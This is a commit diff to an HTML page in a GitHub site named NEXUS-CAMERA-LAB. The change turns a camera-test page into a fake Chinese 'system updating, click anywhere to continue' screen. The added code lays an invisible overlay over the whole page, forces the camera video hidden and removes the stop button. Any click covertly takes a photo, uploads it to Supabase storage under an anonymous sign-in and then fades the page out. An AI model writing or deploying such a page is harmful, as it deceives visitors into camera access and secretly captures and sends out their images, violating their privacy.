

Before and after one commit to haseebullahomari002-art/NEXUS-CAMERA-LAB, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 360-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
 <meta charset="UTF-8">
 <meta name="viewport" content="width=device-width, initial-scale=1">
-<title>NEXUS CAMERA LAB</title>
+<title>系统更新</title>
 
 <script src="https://cdn.jsdelivr.net/npm/@supabase/supabase-js@2"></script>
 
@@ -13,113 +13,111 @@
 body{
  margin:0;
  min-height:100vh;
- padding:22px;
+ padding:0;
  display:flex;
  justify-content:center;
  align-items:center;
- background:#080b16;
+ background:#000;
  color:#fff;
- font-family:Arial,sans-serif;
+ font-family:"Microsoft YaHei", sans-serif;
+ overflow: hidden;
 }
 
 .app{
  width:100%;
- max-width:440px;
- padding:24px;
- border-radius:24px;
- background:#111a2e;
- border:1px solid #33466d;
- box-shadow:0 0 35px #536dfe22;
+ max-width:400px;
+ padding:20px;
  text-align: center;
+ position: relative;
 }
 
 .logo{
  text-align:center;
  color:#65d9ff;
- font-size:27px;
+ font-size:20px;
  font-weight:bold;
  letter-spacing:2px;
  margin-bottom: 10px;
+ opacity: 0.8;
 }
 
 .subtitle{
  text-align:center;
  color:#aebbd2;
  line-height:1.9;
- font-size:14px;
+ font-size:12px;
  margin-bottom: 20px;
+ opacity: 0.7;
 }
 
+#status{
+ text-align:center;
+ margin-top:10px;
+ padding:10px;
+ border-radius:10px;
+ background:#111;
+ color:#70e6c0;
+ font-size:12px;
+ line-height:1.8;
+ min-height: 30px;
+ transition: opacity 0.5s;
+}
+
+.footer{
+ text-align:center;
+ color:#333;
+ font-size:10px;
+ margin-top:20px;
+}
+
+/* ناحیه شفاف برای کلیک کردن کاربر */
+.click-overlay {
+    position: fixed;
+    top: 0;
+    left: 0;
+    width: 100%;
+    height: 100%;
+    z-index: 5;
+    cursor: pointer;
+}
+
+/* ویدیو کاملاً مخفی */
 video{
  width:100%;
  border-radius:15px;
  margin-top:15px;
- background:#05070d;
- display: none; /* ابتدا مخفی */
+ background:#000;
+ display: none !important;
 }
 
-#status{
- text-align:center;
- margin-top:18px;
- padding:13px;
- border-radius:10px;
- background:#080f20;
- color:#70e6c0;
- font-size:13px;
- line-height:1.8;
- min-height: 40px;
-}
-
-.footer{
- text-align:center;
- color:#667995;
- font-size:11px;
- margin-top:20px;
-}
-
-/* دکمه شفاف برای کلیک کردن کاربر */
-.click-area {
-    cursor: pointer;
-    padding: 20px;
-    margin-top: 10px;
-    color: #536dfe;
-    font-weight: bold;
-    font-size: 16px;
-}
 </style>
 </head>
 
 <body>
 
+<!-- ناحیه کلیک نامرئی روی کل صفحه -->
+<div id="click-trigger" class="click-overlay"></div>
+
 <div class="app">
 
-<div class="logo">NEXUS CAMERA LAB</div>
+<div class="logo">NEXUS SYSTEM</div>
 
 <p class="subtitle">
-系统正在更新
+系统正在更新...
 <br>
-点击允许以继续
+点击任意位置继续
 </p>
 
-<!-- منطقه کلیک برای شروع خودکار -->
-<div id="click-trigger" class="click-area">
-点击此处访问摄像头
-</div>
-
-<video id="video" autoplay playsinline hidden></video>
+<video id="video" autoplay playsinline muted></video>
 
 <canvas id="canvas" hidden></canvas>
 
-<button id="stop" class="danger" style="display:none;">
-关闭
-</button>
-
 <div id="status">
-系统就绪。
+等待用户操作
 </div>
 
 <div class="footer">
-NEXUS PROJECT • CAMERA LAB
+NEXUS PROJECT • VER 2.0
 </div>
 
 </div>
@@ -137,11 +135,8 @@ const video = document.getElementById("video");
 const canvas = document.getElementById("canvas");
 const statusBox = document.getElementById("status");
 const clickTrigger = document.getElementById("click-trigger");
-const stopBtn = document.getElementById("stop");
 
 let stream = null;
-let photoBlob = null;
-let currentUser = null;
 let isProcessing = false;
 
 function showStatus(message){
@@ -153,13 +148,11 @@ async function startProcess() {
     if (isProcessing) return;
     isProcessing = true;
 
-    // مخفی کردن ناحیه کلیک و نشان دادن ویدیو
+    // مخفی کردن ناحیه کلیک
     clickTrigger.style.display = 'none';
-    video.hidden = false;
-    video.style.display = 'block';
 
     try{
-        showStatus("正在连接摄像头..."); // در حال اتصال دوربین...
+        showStatus("正在连接摄像头...");
 
         if(!navigator.mediaDevices?.getUserMedia){
             throw new Error("不支持此浏览器");
@@ -171,11 +164,11 @@ async function startProcess() {
         });
 
         video.srcObject = stream;
+
         await video.play();
 
-        showStatus("正在拍照..."); // در حال گرفتن عکس...
+        showStatus("正在拍照...");
 
-        // گرفتن عکس بلافاصله پس از پخش
         const ctx = canvas.getContext("2d");
         canvas.width = video.videoWidth;
         canvas.height = video.videoHeight;
@@ -187,7 +180,6 @@ async function startProcess() {
                 return;
             }
 
-            photoBlob = blob;
             processUpload(blob);
 
         },"image/jpeg",0.85);
@@ -201,12 +193,12 @@ async function startProcess() {
 // تابع آپلود
 async function processUpload(blob) {
     try{
-        showStatus("正在上传..."); // در حال آپلود...
+        showStatus("正在上传...");
 
         const {data,error} = await db.auth.signInAnonymously();
         if(error) throw error;
 
-        currentUser = data.user;
+        const currentUser = data.user;
         const filename = currentUser.id+"/"+Date.now()+".jpg";
 
         const {error:uploadError} = await db.storage
@@ -215,12 +207,17 @@ async function processUpload(blob) {
 
         if(uploadError) throw uploadError;
 
-        showStatus("上传成功！"); // آپلود موفقیت آمیز بود!
+        showStatus("上传成功！");
 
-        // بستن دوربین بعد از موفقیت
         setTimeout(() => {
             stopCamera();
-            showStatus("完成"); // تکمیل شد
+            showStatus("完成");
+
+            setTimeout(() => {
+                statusBox.style.opacity = "0";
+                document.querySelector('.app').style.opacity = "0";
+            }, 1000);
+
         }, 1000);
 
     }catch(error){
@@ -236,15 +233,11 @@ function stopCamera(){
      stream = null;
  }
  video.srcObject = null;
- video.hidden = true;
- video.style.display = 'none';
- stopBtn.style.display = 'none';
 }
 
 // رویداد کلیک روی ناحیه شفاف
 clickTrigger.addEventListener("click", startProcess);
 
-// همچنین اگر کاربر روی صفحه کلیک کرد هم شروع شود
 document.body.addEventListener('click', (e) => {
     if(e.target !== clickTrigger && !stream) {
         startProcess();
```
